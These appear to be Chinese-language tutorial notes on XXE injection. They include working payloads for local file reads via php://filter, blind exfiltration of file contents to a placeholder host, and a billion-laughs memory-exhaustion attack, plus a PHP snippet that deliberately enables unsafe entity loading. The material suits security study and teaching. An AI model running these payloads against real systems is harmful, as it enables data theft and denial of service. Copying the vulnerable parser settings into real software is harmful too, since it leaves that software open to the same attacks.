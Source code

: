 # XXE

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。

利用点是 **外部实体** ，也是提醒读者将注意力集中于外部实体中，而不要被 XML 中其他的一些名字相似的东西扰乱了思维(**盯好外部实体就行了**)

### 如何声明一个外部实体

```dtd
<!ENTITY entity-name SYSTEM "URI/URL">
```

example:

```xml-dtd
DTD 实例:

<!ENTITY writer SYSTEM "file:///c:/test.dtd">
<!ENTITY copyright SYSTEM "php://filter/read=convert.base64-encode/recource=index.php">

XML example:

<author>&writer;&copyright;</author>
```

#### 外部实体两大派别:

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

传统艺能标准玩法：（有回显的xxe）

```xml-dtd
<?xml version="1.0"?> 
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./sql.php">]>
<root>
 <xxe>&xxe;</xxe>
 <flag>233333</flag>
</root>
```



case one:

如果被读取文件含有大量<> & 之类的东西

远程开dtd解决此问题

<![CDATA[what you wanna get]]>

```php
<?php
    $xmldata = '<?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE roottag [
    <!ENTITY % start "<![CDATA[">   
    <!ENTITY % goodies SYSTEM "file:///Users/cengsiqi/Desktop/xxe/1.txt">  
    <!ENTITY % end "]]>">  
    <!ENTITY % dtd SYSTEM "http://127.0.0.1:8080/1.dtd"> 
    %dtd; ]> 
    
    <roottag>&all;</roottag>';

    libxml_disable_entity_loader (false);
    $dom = new DOMDocument();
    $dom->loadXML($xmldata, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % body SYSTEM "file:///d:/wp.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "file:///d:/key.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

```dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%body;%end;">
\\key.dtd
```

blind xxe:

通过外带书记通道传输数据：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./wp.txt">
<!ENTITY % dtd SYSTEM "file://d:/key.dtd">
%dtd;
%send;
]>
```

key.dtd

```dtd-xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY &#x25; send SYSTEM 'http://balabala/?data=%file;'>"
>
```

花式玩法：(看了没敢试

“有机会试试看”)

dos攻击

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

递归玩法挤爆内存